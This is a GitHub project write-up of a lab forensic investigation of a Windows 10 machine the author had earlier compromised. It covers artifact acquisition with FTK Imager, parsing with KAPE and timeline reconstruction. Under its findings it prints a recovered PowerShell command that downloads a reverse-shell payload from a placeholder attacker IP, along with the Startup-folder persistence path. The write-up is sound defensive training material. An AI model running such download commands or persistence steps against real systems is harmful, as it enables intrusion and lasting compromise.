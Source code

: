 ## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier [Windows 10 exploitation](https://github.com/muhammadrayyann/red-team-windows-exploitation.git), where I compromised a Windows machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing a disk image, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## 1. ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:

| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.001`, consolidating these artifacts, ensuring proper evidence integrity.

---

## 2. EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## 3. EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## 4. PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## 5. MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## 6. FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:

- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.

- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.

- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.

- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## 7. BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.

This provided a clear chronological picture of the attack.

---

## SUMMARY
Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:

---

> ⚠️ Disclaimer:
> 
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.

